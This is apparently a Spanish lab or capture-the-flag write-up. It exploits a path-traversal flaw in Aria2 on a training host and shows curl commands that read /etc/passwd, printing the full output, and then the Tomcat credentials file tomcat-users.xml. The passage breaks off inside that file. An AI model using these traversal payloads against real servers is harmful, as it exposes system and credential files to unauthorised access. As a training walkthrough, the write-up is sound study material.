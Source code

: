 Buscando exploits relacionados con **Aria2**, se logra enumerar dos interesantes:
- [Aria2 Arbitrary File Write Vulnerability](https://github.com/vulhub/vulhub/blob/master/aria2/rce/README.m)
- [Aria2 Path traversal](https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e)

Tras revisar el primero, no logramos reproducirlo para conseguir el RCE, así que optamos por el segundo exploit, del cual nos permite leer ficheros internos:

```
> curl --path-as-is http://10.10.185.3:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:112:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:122:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```

## Explotación
Tras identificar el punto de entrada, recordamos que descubrimos el panel de **Apache Tomcat**, así que buscamos todas las rutas posibles para leer el fichero "*tomcat_users.xml*", ya que este fichero almacena las credenciales en texto plano:
```
> curl --path-as-is http://10.10.185.3:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
```